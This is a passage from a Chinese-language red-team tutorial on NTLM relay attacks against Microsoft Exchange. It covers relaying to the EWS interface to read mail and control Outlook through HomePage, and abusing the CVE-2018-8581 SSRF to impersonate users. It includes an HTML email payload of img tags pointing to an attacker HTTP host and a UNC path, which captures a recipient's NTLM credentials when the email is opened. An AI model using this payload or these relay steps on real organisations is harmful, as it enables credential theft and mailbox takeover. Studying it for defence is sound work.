 由于EWS接口也支持NTLM SSP的。我们可以relay到EWS接口，从而收发邮件，代理等等。在使用outlook的情况下还可以通过homepage或者下发规则达到命令执行的效果。而且这种Relay还有一种好处，将Exchange开放在外网的公司并不在少数，我们可以在外网发起relay，而不需要在内网.

而outlook有个设计缺陷(具体版本稍不清楚),又可以导致我们给鱼儿发一封邮箱,对方只需查看邮件,无需预览,就可以拿到鱼儿的ntlm请求.

我们给鱼儿发一封邮件,使用HTML,在里面插入以下语句

```
&lt;img src="http://redteamw/"&gt; 
 &lt;img src="\\IP"&gt;
```

这里支持两种协议,这里说下两个的区别
1. UNCUNC默认携带凭据,但是如果IP 是公网IP的话,很多公司是访问不到公网445的
<li>HTTP协议默认不携带凭据,只有信任域(域内DNS记录)才会携带凭据.域内的成员默认有增加DNS的权限,可以用域内成员的权限在内网增加一条DNS记录.[![](https://p4.ssl.qhimg.com/t01b41603842b34deb8.png)](https://p4.ssl.qhimg.com/t01b41603842b34deb8.png)
</li>
给鱼儿发送邮箱

[![](https://p5.ssl.qhimg.com/t013c2adcf89df245f5.png)](https://p5.ssl.qhimg.com/t013c2adcf89df245f5.png)

当鱼儿用outlook打开的时候就会触发请求,我们再将请求relay到EWS接口

[![](https://p4.ssl.qhimg.com/t010d550875927b8f5e.png)](https://p4.ssl.qhimg.com/t010d550875927b8f5e.png)

relay到EWS接口查看邮件

[![](https://p0.ssl.qhimg.com/t011afceb68b79372ca.png)](https://p0.ssl.qhimg.com/t011afceb68b79372ca.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d5e80035e172d3c5.png)

relay到EWS接口通过HomePage控制Outlook客户端

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f3926d538bdc923c.png)

### <a class="reference-link" name="2.%20Exchange%E4%B8%AD%E7%9A%84SSRF"></a>2. Exchange中的SSRF

在常规渗透中,SSRF常用以对内网的应用进行嗅探,配合内网某些未授权访问的应用来扩大攻击面.由于Exchange的SSRF默认携带凭据,在Relay的场景中,攻击利用面被不断放大,网上公开的一个SSRF就是CVE-2018-8581.

主要有两种应用,relay到EWS接口,relay到LDAP

(1) relay到EWS接口

由于Exchange 是以System用户的权限运行,因此我们拿到的是机器用户的Net-Ntlm Hash。并不能直接用以登录。但是Exchange 机器用户可以获得TokenSerializationRight的”特权”会话，可以Relay 到 机子本身的Ews接口，然后可以使用SOAP请求头来冒充任何用户。

[![](https://p2.ssl.qhimg.com/t013e4122b3e51e2740.png)](https://p2.ssl.qhimg.com/t013e4122b3e51e2740.png)

具体利用请见Wyatu师傅的[https://github.com/WyAtu/CVE-2018-8581](https://github.com/WyAtu/CVE-2018-8581)
